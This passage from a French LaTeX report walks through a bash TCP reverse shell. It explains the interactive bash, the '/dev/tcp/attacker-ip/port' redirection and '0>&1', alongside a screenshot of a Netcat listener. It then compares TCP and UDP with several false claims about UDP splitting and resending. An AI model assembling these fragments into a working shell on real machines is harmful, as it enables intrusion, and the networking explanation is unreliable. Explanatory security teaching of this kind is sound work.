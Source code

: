 
Voici un cas d’application réel de ce reverse :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Bash/localhost_bash_tcp_basique.PNG}
  \caption{Reverse Bash localhost}
  \label{fig:courbe-tikz}
\end{figure}

On peut voir ici qu’en appliquant le reverse bash TCP sur la cible, nous avons pu nous connecter grâce à l’écoute de Netcat au shell ciblé.\\
Mais que signifie cette commande rentrée dans la machine cible ?\\
L’option ‘-i>\&’ va nous permettre de retourner un bash interactif soit être en mode connecté.\\
‘/dev/tcp/ip attaquant/port écoute’ va annoncer à la cible à qui envoyer ce bash interactif et sur quel port à travers un socket TCP.\\
\verb+0>&1+ va nous permettre d’inverser les entrées et les sorties et ainsi créer le reverse-shell.
Nous nous sommes ainsi introduits via le protocole TCP en bash dans la machine cible.
Le protocole TCP est souvent associé au protocole UDP car ils sont presque similaires. La plus grosse différence, qui est majeure, est que TCP est en mode connecté et UDP en mode non connecté. Le mode connecté est un mode d'envoi et de réception de fichier qui a un " accusé-réception". Ceci signifie que le message est éparpillé dans le réseau en plusieurs paquets, avec un numéro qui leur est propre, et arrive chez le destinataire dans un ordre non défini. Cette méthode nécessite donc au destinataire de recomposer le message et de vérifier que tous les paquets sont bien arrivés. Si ce n'est pas le cas, ce dernier va pouvoir demander à l'envoyeur de lui renvoyer le ou les paquets manquants. C'est ce que l'on nomme le mode connecté. Le protocole UDP va se baser sur le mode non connecté. Cette méthode est l'équivalent du temps réel et se doit donc d'avoir une interaction directe entre les deux machines. Le message ne pourra donc pas être découpé ce qui implique un renvoi complet de ce dernier s'il est incomplet à la réception. Le protocole UDP est principalement utilisé dans les applications en temps réels car son faible temps de latence permet d'accéder aux contenus rapidement. Cependant, en ce qui concerne le reverse-shell, UDP n'est vraiment pas conseillé car ce protocole, ne vérifiant pas l'intégrité des trames, pourrait nous faire penser que nous nous sommes trompés alors que c'est UDP qui n'est pas fiable. C'est pour cette raison que TCP sera utilisé en reverse-shell.\\


